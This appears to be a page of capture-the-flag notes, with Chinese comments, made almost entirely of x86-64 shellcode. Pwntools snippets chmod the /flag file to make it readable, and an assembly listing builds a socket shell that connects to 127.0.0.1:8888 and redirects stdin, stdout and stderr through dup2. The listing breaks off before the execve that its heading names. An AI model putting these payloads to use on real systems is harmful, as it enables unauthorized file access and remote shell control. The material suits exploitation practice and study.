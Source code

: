 ```basic
```
```python
sh = asm("""
    lea rdi,[rip+flag]       # 
    mov rsi, 0777
    mov rax,90
    syscall
flag:
    .string "/flag"
""")

# -rwxrwxrwx 1 root root 57 Aug  6 07:52 /flag
```
```python
sh = asm(shellcraft.chmod('/flag',0o4))		
# 直接修改/flag文件权限为 -------r-- 1 root root 57 Aug  6 07:52 /flag
```
## *socket 连接 execve 调用的 shell
```
/* open new socket */
    /* open new socket */
    /* call socket('AF_INET', SOCK_STREAM (1), 0) */
    push 0x29 /* sys_socket */
    pop rax
    push 2 /* AF_INET */
    pop rdi
    push 1 /* SOCK_STREAM */
    pop rsi
    cdq /* rdx=0 */
    syscall
    /* Put socket into rbp */
    mov rbp, rax
    /* Create address structure on stack */
    /* push b'\x02\x00"\xb8\x7f\x00\x00\x01' */
    mov rax, 0x201010101010101
    push rax
    mov rax, 0x201010101010101 ^ 0x100007fb8220002
    xor [rsp], rax
    /* Connect the socket */
    /* call connect('rbp', 'rsp', 0x10) */
    push 0x2a /* SYS_connect */
    pop rax
    mov rdi, rbp
    push 0x10
    pop rdx
    mov rsi, rsp
    syscall
    /* dup() file descriptor rbp into stdin/stdout/stderr */
dup_3:
    /* moving rbp into rbp, but this is a no-op */
    push 3
loop_4:
    pop rsi
    dec rsi
    js after_5
    push rsi
    /* call dup2('rbp', 'rsi') */
    push 0x21 /* SYS_dup2 */
    pop rax
    mov rdi, rbp
    syscall
    jmp loop_4
after_5:
```